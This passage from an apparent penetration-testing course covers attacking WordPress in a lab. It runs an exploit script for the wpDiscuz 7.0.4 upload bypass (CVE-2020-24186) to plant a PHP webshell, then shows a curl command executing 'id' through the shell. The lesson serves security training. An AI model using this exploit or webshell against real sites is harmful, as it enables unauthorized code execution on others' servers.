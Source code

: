The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

&#x20; Attacking WordPress

```shell-session
root@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```

The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

&#x20; Attacking WordPress

```shell-session
root@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.

***

### Moving On

As we have seen from the last two sections, WordPress presents a vast attack surface. During our careers as penetration testers, we will almost definitely encounter WordPress many times. We must have the skills to quickly footprint a WordPress installation and perform thorough manual and tool-based enumeration to uncover high-risk misconfigurations and vulnerabilities. If these sections on WordPress were interesting, check out the [Attacking WordPress module](https://academy.hackthebox.com/course/preview/hacking-wordpress) for more practice.
